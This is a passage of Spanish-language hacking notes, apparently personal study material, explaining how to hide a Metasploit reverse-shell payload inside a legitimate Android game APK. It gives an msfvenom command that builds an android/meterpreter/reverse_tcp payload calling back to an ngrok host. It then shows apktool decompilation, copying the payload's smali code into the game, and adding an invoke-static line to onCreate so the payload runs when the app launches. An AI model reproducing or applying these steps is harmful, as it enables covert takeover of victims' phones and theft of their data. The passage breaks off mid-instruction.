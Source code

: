 ```msfvenom -p android/meterpreter/reverse_tcp LHOST=0.tcp.ngrok.io LPORT=17547 -o reverse.apk```
* Primero Comenzamos descargando la app que queramos (en mi caso "Temple Run").
  * Antes de nada aconsejaros que probéis que la apk que vamos a descargar sin modificar funciona correctamente en el dispositivo víctima, yo tuve que probar un par de apps antes porque me abrían la sesión y se cerraba la app junto con la sesión y era porque la app que descargué no funcionaba en el dispositivo que yo estaba usando...
  * [https://www.apkmonk.com/](https://www.apkmonk.com/) => Usé esta página como usó S4vitar, porque descargando desde la PlayStore probé varios y no me funcionaba (puede ser por estar corriendo un Android 5.1, o por tener que profundizar más en el código, pero lo dejé ahí ya que tenía otras vías).
* Instalamos la aplicación **"apktool"** desde la URL: [https://github.com/iBotPeaches/Apktool/releases/download/v2.4.1/apktool_2.4.1.jar](https://github.com/iBotPeaches/Apktool/releases/download/v2.4.1/apktool_2.4.1.jar)
  * La descargamos desde este enlace porque la que viene en repositorio de Kali/Parrot no es correcta y falla. (comprobar si esto es así, con el comando ```"apktool --version"```. Si nos dice que la versión es como en la imagen, la dirty, no nos va a funcionar la compilación de la app maliciosa).

![apktoolDirty](/images/apuntes/HackingAndroid/apkToolDirty.png)

  * Con el comando ```"java -jar apktool_2.4.1.jar"``` podemos ejecutarlo.
* Vamos a "descomprimir" nuestras 2 APKs (la maliciosa, que es la que hemos creado en el apartado [crear apk maliciosa sencilla](#crear-apk-maliciosa-sencilla), y la real) con esta aplicación que hemos instalado.
  * ```java -jar apktool_2.4.1.jar d "nombre de la apk"``` => Esto nos crea un directorio con el nombre de la apk que hemos "descomprimido".

![apktoolUse](/images/apuntes/HackingAndroid/apktoolJava.png)

* Ahora entramos en el directorio de la apk maliciosa (reverse en mi caso)
  * Dentro de este directorio vemos otro directorio llamado "smali".
  * Dentro de este directorio podemos ver el directorio "com" y dentro de este tenemos el directorio "metasploit".
  * Vamos a comprimir el directorio "smali" de nuestra APK maliciosa para descomprimirlo directamente dentro del mismo directorio dentro de la APK "original".
    * Podemos realizarlo con el comando (estando ubicados en la raiz del directorio de nuestro payload):  
    ```tar -cf - ./smali | ( cd ../temple; tar -xpf - )``` ==> Gracias S4vitar por el comando

![tarSmali](/images/apuntes/HackingAndroid/tarSmali.png)
* 
    * Entramos ahora en la carpeta de la APK "original" que hemos descargado.
    * Una vez hecho esto debemos de modificar el archivo "TempleRunOzActivity.smali (en mi caso)" de la apk "original" para que apunte a nuestro payload y lo ejecute al arrancar la app.
    * Para poder encontrar la ubicación de este archivo, si no lo encontramos, podemos usar los siguientes comandos (desde la raiz del directorio).
      * ```grep "MAIN" -b2 AndroidManifest.xml``` => Para buscar la palabra "MAIN" dentro del archivo AndroidManifest.xml y mostrando las 2 líneas que hay por encima y por debajo.
      * Para conseguir su ruta, tenemos que fijarnos donde dice "android:name=", lo que viene después nos mostrará la ruta que tenemos que seguir hasta el archivo "TempleRunOzActivity.smali (en mi caso)".
      * En el caso que no os aparezca la ruta y solo os aparezca el nombre del fichero, podemos buscarlo con el comando:  
      ```find ./ -type f -name "TempleRunOzActivity".```

![grepManifest](/images/apuntes/HackingAndroid/grepManifest.png)

  * Abrimos el archivo "TempleRunOzActivity.smali" y lo modificamos:
    * Buscamos la línea donde dice ".method "*" onCreate..." (* Puede ser public, private, protected... Así que mejor buscar por "onCreate") 
    * En la primera línea debajo de esta que hemos buscado tenemos que colocar una "llamada" a nuestro payload para que se ejecute al arrancar la app.
    * La línea que tenemos que añadir quedaría así:
      * ```invoke-static {p0}, Lcom/metasploit/stage/Payload;->start(Landroid/content/Context;)V```
        * Donde está la primera letra "L" tenemos que poner la ruta donde estaría nuestro payload, partiendo desde el directorio "com".
```